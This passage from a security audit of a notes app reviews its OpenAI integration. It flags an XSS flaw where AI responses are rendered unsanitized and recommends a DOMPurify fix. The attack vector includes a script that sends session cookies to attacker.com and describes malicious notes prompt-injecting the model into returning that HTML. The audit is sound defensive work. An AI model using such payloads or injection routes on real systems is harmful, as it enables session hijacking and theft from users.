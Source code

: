 ### 3. API & AI Integration Security ⚠️ HIGH RISK

#### ✅ What's Done Well
1. **Server-Side API Key Storage**: OpenAI key only in server environment
   - `src/lib/openai.ts:4` and `src/openai/index.ts:4` use `process.env.OPENAI_API_KEY`
   - Never exposed to client bundle

2. **User Authentication Before AI Calls**: Validates session
   - `askAIAboutNotesAction()` checks `getUser()` at `src/actions/notes.ts:73`

3. **User Data Scoping**: AI only accesses authenticated user's notes
   ```typescript
   // Line 77-82: Fetches only user's notes
   const notes = await prisma.note.findMany({
       where: { authorId: user.id },
       orderBy: { createdAt: "desc"}
   })
   ```

#### ⚠️ Critical Vulnerabilities

**CRITICAL-2: XSS Vulnerability via Unfiltered AI Responses**
- **Location:** `src/components/ui/AskAIButton.tsx:124`
- **Code:**
  ```typescript
  <p
    className="bot-response text-muted-foreground text-sm"
    dangerouslySetInnerHTML={{ __html: responses[index]}}
  />
  ```
- **Issue:** AI-generated HTML rendered directly without sanitization
- **Attack Vector:**
  1. Attacker injects malicious notes into their account:
     ```
     <script>
     fetch('https://attacker.com/steal?cookies='+document.cookie)
     </script>
     ```
  2. When user asks AI about notes, malicious script gets returned in HTML response
  3. `dangerouslySetInnerHTML` renders the script, executing attacker code
  4. Attacker steals session cookies, performs actions as victim

- **Real-World Risk:**
  - OpenAI models can be prompt-injected to output malicious HTML
  - Financial data theft via XSS → session hijacking → unauthorized transactions
- **Remediation Priority:** 🔴 **CRITICAL** (P0)
- **Fix Required:**
  ```typescript
  import DOMPurify from 'isomorphic-dompurify';

  // In component
  <p
    className="bot-response text-muted-foreground text-sm"
    dangerouslySetInnerHTML={{
      __html: DOMPurify.sanitize(responses[index], {
        ALLOWED_TAGS: ['p', 'strong', 'em', 'ul', 'ol', 'li', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'br'],
        ALLOWED_ATTR: []
      })
    }}
  />
  ```
  Install: `pnpm add isomorphic-dompurify`
